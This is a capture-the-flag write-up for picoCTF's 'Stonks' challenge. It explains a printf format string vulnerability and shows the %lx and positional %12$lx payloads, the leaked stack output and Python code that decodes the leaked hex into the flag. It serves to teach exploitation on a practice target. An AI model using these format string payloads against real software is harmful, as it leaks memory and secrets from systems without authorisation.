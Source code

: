 # PicoCTF: Stonks

[Original challenge *(requires login)*](https://play.picoctf.org/practice/challenge/105)

## Finding the vulnerability

I knew going into this that the vulnerability would be a `printf` format string-related one, which is pretty familiar territory for me.
When I set up my environment for the challenge, this was confirmed:

```
; gcc -Wall -Wextra vuln.c -o vuln.exe
stonks/vuln.c: In function ‘buy_stonks’:
stonks/vuln.c:93:2: warning: format not a string literal and no format arguments [-Wformat-security]
   93 |  printf(user_buf);
      |  ^~~~~~
# (omitted some unused variable warnings)
```

Just goes to show: Always compile with warnings.
It could have saved this dev from making this mistake.

It also saved *me* from having to dig for the vulnerable line, since it's... right there.
A very quick check shows that it's user input from when you're prompted to enter your API token:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The way this vulnerability is gonna work is pretty simple:
Because they called `printf` with *our input* as the format string, we can slide some `%lx`s in there.
Arguments to variadic functions like `printf` are passed on the stack, so any format specifiers we put in there will read data off the stack, and conveniently, that's where the flag is sitting:

```c
// FLAG_BUFFER == 128
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
  printf("Flag file not found. Contact an admin.\n");
  exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

So it's just a matter of finding the right offset to start at, dumping enough to cover the length of the flag, and then parsing it.
Finding the offset is a bit tedious, but by putting a [de Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) sequence in the flag file, it's pretty simple:

```py3
from pwn import *
cyclic_gen(string.digits).get(128)
# => '00001000200030004000500060007000800090011001200130014001500160017001800190021002200230024002500260027002800290031003200330034003'
```

Notice I picked `string.digits`: I'm gonna be looking at hex, and the byte value for each digit is just `0x30` plus that digit, which makes it easier to read.

## Testing and building

So now we build a format string.
I'm going to be using `%lx`, printing out `long`s as hex, and I'm gonna use 20, separated by `.`.
You could also do 20 `%016lx`; I just prefer the dots because I find it easier to reason about endianness if I can clearly see the chunks delimited.
Note the `l` in both, though: On my system, all arguments are treated as at least 8 bytes wide, and `%x` only prints out the last 4 of those bytes.
That's part of why I picked a de Bruijn sequence; it's long enough to fill up a lot of space while still being pretty easy to tell if anything is missing.

When we pass in the format string, we get out:

```
What is your API token?
%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
Buying stonks with token:
7fe6f1a9b723.0.7fe6f19c01e7.1a.7fffffff.7ffcf52f0a40.556f3c9ac2a0.200000000.556f3c9ac6d0.556f3c9ad9e0.556f3c9ada00.3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035.3130303831303037
```

And we see, starting at 'argument' 12, our de Bruijn sequence: `3030303130303030` is `00010000`, which is the first eight bytes backwards.

## Cleaning it up

Now that we have our offsets, we can use a less brute-force approach and target the exact indices we actually want:

```py3
# flag is max. 128 bytes long, %lx prints 8 bytes per format specifier
'.'.join(f'%{i}$lx' for i in range(12, 12 + (128//8)))
# => %12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
```

The `%n$` syntax is a non-standard extension, but the server supports it, so it's fair game.
It lets us get an argument by index, rather than having to go through all of the arguments before it, and it makes parsing the output just a little easier.
It's not necessary, though, if your target doesn't support it.

```
What is your API token?
%12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
Buying stonks with token:
3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035
```

This output is pretty simple to parse:

```py3
resp = # ...
chunks = resp.split(b'.')
nums = (int(c, 16) for c in chunks)
byteses = (i.to_bytes(8, 'little') for i in nums)
flag_bytes = b''.join(byteses)[:MAX_FLAG]
flag = flag_bytes.decode('utf-8')
```

In order, that:

- Splits our period-separated chunks into just the chunks
- Parses each as an integer
- Converts that integer to little-endian bytes (this may need to be tweaked to work when running locally)
- Joins all the chunks of bytes together
- Converts that to text

Which gets us our flag!
It could also have been a "one-liner", but I chose to break it into small steps to make it easier to see, step by step, what was going on.

My [actual solution](./solve.py) has some extra bits to be self-contained; as long as you have a C compiler on your system accessible as `cc` -- which, after installing any C compiler on a Linux system, you should -- it'll compile `vuln.c`, copy your flag file next to it, and run it, all on its own.
It also of course includes the machinery to dump the stack on its own.
It *also* includes some extra machinery to handle the differences between my local machine and the server, trim the flag at the first null, etc.
But the bulk of the work, the actual reverse-engineering and exploitation, is what I've described in this post.
